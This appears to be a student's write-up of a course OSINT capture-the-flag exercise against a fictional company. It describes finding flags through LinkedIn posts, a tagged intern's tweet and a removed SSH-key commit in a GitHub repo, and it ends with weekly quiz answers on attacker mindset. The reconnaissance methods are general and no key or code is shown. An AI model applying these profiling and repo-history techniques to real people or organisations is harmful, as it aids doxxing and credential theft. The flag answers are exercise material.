- HR Manager tagged the new intern in a tweet about training her - new intern posted a tweet containing the flag
- ZZEN9201{social_media_leaks_r_real}

Github Flag

- WallabyTech hasn't been training their interns very well. One of them even uploaded sensitive information to the github repository! Luckily they quickly removed it so no one can view it anymore...
- Commit - REMOVED: ssh private key
- ZZEN9201{dont_push_private_keys_to_prod}

Bonus Flag

- Found by searching the repo on Github for "ZZEN"
- ZZEN9201{always_check_the_sauce}

This was a fun and interesting OSINT challenge. For the LinkedIn Flag, I went through the linked profiles on the website and found the flag in a photo of a post from one of the employees (although I spent ages trying to figure out why it did not work.. there was a typo - it should have been ZZEN instead of ZENN). Whilst browsing the company's LinkedIn, I came across the profile for the intern who was not listed on the website. I tried to find her Twitter profile by looking through the followers and followings of the two employees on the website. Without being able to find anything useful, I then noticed a tweet from the HR manager regarding training the new intern, conveniently tagging her profile as well (interesting that none of them follow each other tho..). I then found the flag in the intern's Tweet about her work. The last two flags were rather straight forward for me, involving searching the repo for the flag keyword "ZZEN", and browsing for suspicious Git commits (such as removing a ssh private key 🤔).


# Weekly Quiz

1. Attacker Mindset: Defenders look proudly at their efforts and relax, whereas attackers look at the weakest part of the defences to attack.
2. Solving a Problem: When you devise a solution to a complex problem, the best thing to do next is to try and improve your solution.
3. 0 Days: A 0-Day is a vulnerability not yet known by the developer.
4. Attack Methods: The most common method of access for an attacker is through social engineering.
5. Codes: In the opening scene of the movie "Wargames", the control operators had to break plastic covers to reveal the codes inside. This is an example of tamper evident design.


